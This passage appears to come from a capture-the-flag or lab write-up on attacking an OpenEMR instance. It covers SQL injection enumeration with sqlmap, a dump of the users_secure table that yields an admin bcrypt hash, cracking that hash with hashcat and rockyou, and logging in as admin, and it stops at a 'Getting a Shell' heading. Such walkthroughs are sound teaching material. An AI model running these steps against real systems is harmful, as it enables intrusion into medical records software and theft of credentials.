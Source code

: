 This injection point works! We can now see what tables exist:

```
sqlmap -r request.txt -D openemr --tables

...
[11:27:19] [INFO] retrieved: 'user_settings'                                                                         
[11:27:19] [INFO] retrieved: 'users'                                                                                                                                                                                                       
[11:27:19] [INFO] retrieved: 'users_facility'                                                                        
[11:27:19] [INFO] retrieved: 'users_secure'
...
```

Looking at the users tables gives us plaintext passwords, but they're invalid. However, dumping users_secure gives us a hash:

```
sqlmap -r request.txt -D openemr -T users-secure --dump

+----+--------------------------------+--------------------------------------------------------------+---------------+---------------------+---------------+---------------+-------------------+-------------------+                       
| id | salt                           | password                                                     | username      | last_update         | salt_history1 | salt_history2 | password_history1 | password_history2 |                       
+----+--------------------------------+--------------------------------------------------------------+---------------+---------------------+---------------+---------------+-------------------+-------------------+                       
| 1  | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | openemr_admin | 2019-11-21 06:38:40 | NULL          | NULL          | NULL              | NULL              |                       
+----+--------------------------------+--------------------------------------------------------------+---------------+---------------------+---------------+---------------+-------------------+-------------------+
```

This is a blowfish hash, that we can crack with Hashcat:

```
hashcat -m 3200 hashes.txt /usr/share/wordlists/rockyou.txt

...
$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.:xxxxxx
...
```

Trying these credentials on the main page of the OpenEMR website grants us access!

**openemr_admin:xxxxxx**


## Getting a Shell
